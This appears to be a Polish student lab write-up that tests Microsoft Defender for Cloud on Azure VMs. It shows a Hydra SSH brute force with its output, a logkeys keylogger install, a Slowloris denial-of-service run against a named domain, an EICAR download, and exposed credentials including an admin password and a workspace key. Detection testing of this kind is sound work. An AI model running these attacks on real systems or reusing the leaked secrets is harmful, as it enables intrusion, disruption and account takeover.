








#### Utwórz sieć wirtualną

```
> az network vnet create -g wsb-lab04 -n secnet --address-prefix 10.0.0.0/16 --subnet-name sub1 --subnet-prefix 10.0.0.0/24
```

#### Utwórz dwie VMki, ubuntu + kali

```
> az network public-ip create -g wsb-lab04 -n ubuVM-pip --version IPv4 -l westeurope
> az network public-ip create -g wsb-lab04 -n kaliVM-pip --version IPv4 -l westeurope

> az network public-ip list -o table
Name        ResourceGroup    Location    Zones    IdleTimeoutInMinutes    ProvisioningState
----------  ---------------  ----------  -------  ----------------------  -------------------
kaliVM-pip  wsb-lab04        westeurope           4                       Succeeded
ubuVM-pip   wsb-lab04        westeurope           4                       Succeeded
```

```
> az vm image list --offer kali --all -o table
Architecture    Offer                      Publisher                    Sku                        Urn                                                                                Version
--------------  -------------------------  ---------------------------  -------------------------  ---------------------------------------------------------------------------------  ---------
x64             kali-linux-on-azure        askforcloudllc1651766049149  kali-linux-on-azure        askforcloudllc1651766049149:kali-linux-on-azure:kali-linux-on-azure:0.0.1          0.0.1
x64             kali                       kali-linux                   kali                       kali-linux:kali:kali:2022.3.0                                                      2022.3.0
x64             ntg_avd_kali_linux         ntegralinc1586961136942      ntg_avd_kali_linux_mspc    ntegralinc1586961136942:ntg_avd_kali_linux:ntg_avd_kali_linux_mspc:1.0.0           1.0.0
x64             ntg_avd_kali_linux         ntegralinc1586961136942      ntg_avd_kali_linux_mspc    ntegralinc1586961136942:ntg_avd_kali_linux:ntg_avd_kali_linux_mspc:1.0.1           1.0.1
x64             ntg_kali_linux             ntegralinc1586961136942      ntg_kali_linux_2022        ntegralinc1586961136942:ntg_kali_linux:ntg_kali_linux_2022:1.0.0                   1.0.0
x64             ntg_kali_linux             ntegralinc1586961136942      ntg_kali_linux_2022        ntegralinc1586961136942:ntg_kali_linux:ntg_kali_linux_2022:1.0.1                   1.0.1
x64             ntg_kali_linux             ntegralinc1586961136942      ntg_kali_linux_2022        ntegralinc1586961136942:ntg_kali_linux:ntg_kali_linux_2022:1.0.2                   1.0.2
x64             ntg_kali_linux             ntegralinc1586961136942      ntg_kali_linux_2022        ntegralinc1586961136942:ntg_kali_linux:ntg_kali_linux_2022:1.0.3                   1.0.3
x64             ntg_kali_linux             ntegralinc1586961136942      ntg_kali_linux_2022        ntegralinc1586961136942:ntg_kali_linux:ntg_kali_linux_2022:1.0.4                   1.0.4
x64             ntg_kali_linux             ntegralinc1586961136942      ntg_kali_linux_2022_edu    ntegralinc1586961136942:ntg_kali_linux:ntg_kali_linux_2022_edu:1.0.0               1.0.0
x64             ntg_kali_linux_essentials  ntegralinc1586961136942      ntg_kali_linux_essentials  ntegralinc1586961136942:ntg_kali_linux_essentials:ntg_kali_linux_essentials:1.0.0  1.0.0
x64             desktop-linux-kali         techlatest                   desktop-linux-kali         techlatest:desktop-linux-kali:desktop-linux-kali:1.1.2                             1.1.2
```

```
> az vm create -n ubuVM -g wsb-lab04 --image UbuntuLTS -l westeurope --size Standard_B1s --authentication-type password --admin-username useradm --admin-password adminToDupa123 --public-ip-address ubuVM-pip --public-ip-sku Standard --vnet-name secnet --subnet sub1
{
  "fqdns": "",
  "id": "/subscriptions/<id>/resourceGroups/wsb-lab04/providers/Microsoft.Compute/virtualMachines/ubuVM",
  "location": "westeurope",
  "macAddress": "00-22-48-87-33-40",
  "powerState": "VM running",
  "privateIpAddress": "10.0.0.4",
  "publicIpAddress": "13.69.60.127",
  "resourceGroup": "wsb-lab04",
  "zones": ""
}

> az vm create -n kaliVM -g wsb-lab04 --image kali-linux:kali:kali:2022.3.0 -l westeurope --size Standard_B1s --authentication-type password --admin-username useradm --admin-password adminToDupa123 --public-ip-address kaliVM-pip --public-ip-sku Standard --vnet-name secnet --subnet sub1
{
  "fqdns": "",
  "id": "/subscriptions/<id>/resourceGroups/wsb-lab04/providers/Microsoft.Compute/virtualMachines/kaliVM",
  "location": "westeurope",
  "macAddress": "00-0D-3A-44-AF-B2",
  "powerState": "VM running",
  "privateIpAddress": "10.0.0.5",
  "publicIpAddress": "40.118.43.109",
  "resourceGroup": "wsb-lab04",
  "zones": ""
}
```

#### Microsoft Defender for Cloud



W przypadku maszyny z kalim stwierdzamy problem z podpięciem log analytics.  
Instalujemy z palca agenta i odpalamy troubleshooter.
```
wget https://raw.githubusercontent.com/Microsoft/OMS-Agent-for-Linux/master/installer/scripts/onboard_agent.sh && sh onboard_agent.sh -w d289c1b4-7d0d-462f-bea1-fcf2d745cc2d -s siEzkWwNWFuhTqtvt+Q4jB+Y78dZD/ONPRmH6yC6VOj6tT7JgPR6rlbAvrtaeRhsERP8KM5/Xamq34E2Eo/6gg== -d opinsights.azure.com
```

```
┌──(useradm㉿kali)-[~]
└─$ sudo /opt/microsoft/omsagent/bin/troubleshooter
Checking for python install...
Checking all necessary python modules are installed...
Checking all necessary programs are installed...
Running troubleshooting tool in Python 3.10.8...

(...)

ALL ERRORS/WARNINGS ENCOUNTERED:
  ERROR FOUND: OMSConfig isn't installed correctly.
--------------------------------------------------------------------------------
  ERROR FOUND: OMS isn't installed correctly.
--------------------------------------------------------------------------------
  ERROR FOUND: Kali GNU/Linux is not a supported Operating System. To see all supported Operating Systems, please go to:

   https://docs.microsoft.com/en-us/azure/azure-monitor/platform/log-analytics-agent#supported-linux-operating-systems

```

Uświadomiwszy sobie, że maszyna z kalim nie musi wcale być podpięta do LA, zostawiamy temat.


#### [1] Brute force

```
> ssh useradm@40.118.43.109

┌──(useradm㉿kali)-[~]
└─$ sudo apt update && sudo apt install hydra wordlists

┌──(useradm㉿kali)-[~/tmp]
└─$ cp /usr/share/wordlists/rockyou.txt.gz .   

┌──(useradm㉿kali)-[~/tmp]
└─$ gzip -d rockyou.txt.gz 

┌──(useradm㉿kali)-[~/tmp]
└─$ head -20 rockyou.txt > user.txt

┌──(useradm㉿kali)-[~/tmp]
└─$ head -20 rockyou.txt > pass.txt
```
```
┌──(useradm㉿kali)-[~/tmp]
└─$ hydra -I -L user.txt -P pass.txt -t 4 13.69.60.127 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-01 21:27:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 484 login tries (l:22/p:22), ~121 tries per task
[DATA] attacking ssh://13.69.60.127:22/
[STATUS] 60.00 tries/min, 60 tries in 00:01h, 424 to do in 00:08h, 4 active
[22][ssh] host: 13.69.60.127   login: useradm   password: adminToDupa123
[STATUS] 59.67 tries/min, 179 tries in 00:03h, 305 to do in 00:06h, 4 active
[STATUS] 53.71 tries/min, 376 tries in 00:07h, 108 to do in 00:03h, 4 active
[STATUS] 52.25 tries/min, 418 tries in 00:08h, 66 to do in 00:02h, 4 active
[STATUS] 50.22 tries/min, 452 tries in 00:09h, 32 to do in 00:01h, 4 active
[STATUS] 48.40 tries/min, 484 tries in 00:10h, 1 to do in 00:01h, 3 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-01 21:37:34
```

Patrzymy w logi i... nie ma żadnych logów. :')

Spróbujmy jeszcze z lokalnej maszyny.
```
> docker run -it kalilinux/kali-rolling /bin/bash
```
i powielamy cały proces... a logów jak nie było tak nie ma.  
Prawdpodobnie logi analizowane są w oknach czasowych i trzeba poczekać, czekamy zatem.  
Po przeszło godzinie ku naszej uciesze pojawiają się logi.



#### [2] Logkeys

```
useradm@ubuVM:~$ sudo apt update && sudo apt install build-essential autotools-dev autoconf kbd gcc g++ git vim

useradm@ubuVM:~$ git clone https://github.com/kernc/logkeys.git && cd logkeys

useradm@ubuVM:~$ ./autogen.sh && cd build && ../configure
useradm@ubuVM:~$ make
useradm@ubuVM:~$ sudo make install
```

Odpalamy
```
useradm@ubuVM:~$ sudo llk
```

Stukamy w klawiaturę jak opętani chcąc sprawdzić czy keylogger działa.  
Sprawdzamy logi:

```
useradm@ubuVM:~$ cat /var/log/logkeys.log
```

Jest nam smutno, bo nie ma tam niczego z naszego twórczego stukania. :'(  
Zgodnie z dostarczonym troubleshootingiem sprawdzamy resztę eventów, niczego to jednak nie zmienia.  
W końcu trafiamy na straszną, lecz całkiem sensowną informację: 


```
logkeys will log only keystrokes of keyboard(s) (USB or serial) connected to the machine logkeys is running on.

SSH daemon receives the input over a TCP connection not from a keyboard-like device. The devices sshd uses are pseudo terminals. They work on a different level than a keyboard device and they are between sshd and the programs being run (not between sshd and the user).

logkeys does not work with terminal so you have to use a different solution. It would be rather a "session logger/recorder" as it does not log keystrokes directly from keyboard.
```

:(

W ramach odwetu postanawiamy zaatakować inne maszyny.

```
useradm@ubuVM:~slowloris$ wget https://raw.githubusercontent.com/GHubgenius/slowloris.pl/master/slowloris.pl
useradm@ubuVM:~/slowloris$ sudo apt install perl libwww-mechanize-shell-perl libwww-mechanize-perl
```

```
useradm@ubuVM:~/slowloris$ perl slowloris.pl -dns abstergo.cloud
Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client by Laera Loris
Defaulting to port 80.
Defaulting to a 5 second tcp connection timeout.
Defaulting to a 100 second re-try timeout.
Defaulting to 1000 connections.
Multithreading enabled.
Connecting to abstergo.cloud:80 every 100 seconds with 1000 sockets:
		Building sockets.
		Building sockets.
		Sending data.
		Sending data.
Current stats:	Slowloris has now sent 3926 packets successfully.
This thread now sleeping for 100 seconds...

Current stats:	Slowloris has now sent 3938 packets successfully.
This thread now sleeping for 100 seconds...
...
```

Patrzymy co ciekawego wykrył Defender.





#### [3] eicar

Ściągamy Anti-Malware Testfile

```
useradm@ubuVM:~/eicar$ wget https://secure.eicar.org/eicar.com
```

W tym momencie oczekujemy, że Defender wykryje incydent, ale tak się nie dzieje.  
Sprawdzamy integrację MDE.



Wchodzimy na maszynę i sprawdzamy czy `mdatp` działa.  
Po chwili okazuje się, że nie mamy `mdatp`... instalujemy zatem.

```
useradm@ubuVM:~$ sudo apt install libplist-utils gpg gnupg apt-transport-https
useradm@ubuVM:~$ curl -o microsoft.list https://packages.microsoft.com/config/ubuntu/18.04/prod.list
useradm@ubuVM:~$ sudo mv ./microsoft.list /etc/apt/sources.list.d/microsoft-prod.list
useradm@ubuVM:~$ curl -sSL https://packages.microsoft.com/keys/microsoft.asc | gpg --dearmor | sudo tee /etc/apt/trusted.gpg.d/microsoft.gpg > /dev/null
```
```
useradm@ubuVM:~$ sudo apt update && sudo apt install mdatp
```

Startujemy i... zauważamy, że nasza maszyna niemalże przestaje reagować na cokolwiek. :')  
Szybki rzut oka na metryki



Szybki resize na coś większego i wracamy do gry. 



Healthcheck mdatp

```
useradm@ubuVM:~$ mdatp health
ATTENTION: No license found. Contact your administrator for help.
healthy                                     : false
health_issues                               : ["missing license"]
licensed                                    : false
engine_version                              : "1.1.19800.4"
app_version                                 : "101.85.27"
org_id                                      : unavailable
log_level                                   : "info"
network_protection_status                   : "stopped"
network_protection_enforcement_level        : "disabled"
```

Przy próbie onboardingu...

```
To use Microsoft Defender for Endpoint P2 Trial, you'll need to ask your administrator to get it for you, or create an account to get it yourself.
```

...to be continued...